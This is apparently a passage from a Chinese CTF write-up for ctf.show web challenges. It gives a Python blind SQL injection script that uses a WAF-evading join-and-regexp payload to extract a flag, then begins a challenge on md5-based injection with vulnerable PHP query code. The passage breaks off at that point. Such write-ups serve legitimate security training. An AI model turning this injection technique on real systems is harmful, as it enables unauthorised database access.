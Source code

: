 >
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```

直接拿上题的脚本就可以

```python
# @Author: yanmie

import requests

url = "http://f9cb7903-66ce-445d-874a-b54de32dd8da.chall.ctf.show/select-waf.php"
payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},{})regexp(char({})))"
i =5
flag = "flag{"

def createNum(n):
    num = 'true'
    if num == 1:
        return 'true'
    else:
        for i in range(n-1):
            num += '+true'
        return num;

while True:
    i += 1
    for j in range(127):
        data ={
            "tableName":payload.format(createNum(i),createNum(1),createNum(j))
        }
        response = requests.post(url=url,data=data)
        if "$user_count = 43;" in response.text:
            if chr(j) != ".":
                flag += chr(j)
                break;

    print(flag.lower())
    if chr(j) == '}':
        break
```

## web187~md5 sql注入

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
>       
> ```
>
> 返回逻辑
>
> ```
>     $username = $_POST['username'];
>     $password = md5($_POST['password'],true);
> 